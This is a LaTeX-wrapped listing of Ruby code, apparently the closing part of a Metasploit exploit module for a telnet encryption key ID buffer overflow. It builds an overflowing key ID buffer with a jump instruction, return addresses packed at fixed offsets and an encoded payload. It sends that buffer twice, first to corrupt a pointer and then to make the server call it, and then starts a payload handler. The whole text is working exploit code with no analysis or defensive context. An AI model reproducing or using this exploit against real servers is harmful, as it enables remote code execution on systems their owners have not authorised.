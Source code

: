 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
    penc = payload.encoded.gsub("\xff", "\xff\xff")

    key_id = Rex::Text.rand_text_alphanumeric(400)

    key_id[ 0, 2] = "\xeb\x76"
    key_id[72, 4] = [ t['Ret'] - 20 ].pack("V")
    key_id[76, 4] = [ t['Ret'] ].pack("V")

    # Some of these bytes can get mangled, jump over them
    key_id[80,40]  = "\x41" * 40

    # Insert the real payload
    key_id[120, penc.length] = penc

    # Create the Key ID command
    sploit = enc_keyid + key_id + end_suboption

    # Initiate encryption
    sock.put(enc_init)

    # Wait for a successful response
    loop do
      data = sock.get_once(-1, 5) rescue nil
      if not data
        fail_with(Failure::Unknown, "This system does not support encryption")
      end
      break if data.index("\xff\xfa\x26\x02\x01")
    end

    # The first request smashes the pointer
    print_status("Sending first payload")
    sock.put(sploit)

    # Make sure the server replied to the first request
    data = sock.get_once(-1, 5)
    unless data
      print_status("Server did not respond to first payload")
      return
    end

    # Some delay between each request seems necessary in some cases
    ::IO.select(nil, nil, nil, 0.5)

    # The second request results in the pointer being called
    print_status("Sending second payload...")
    sock.put(sploit)
    handler

    ::IO.select(nil, nil, nil, 0.5)
    disconnect
  end

end

			\end{lstlisting}
						
\end{document}
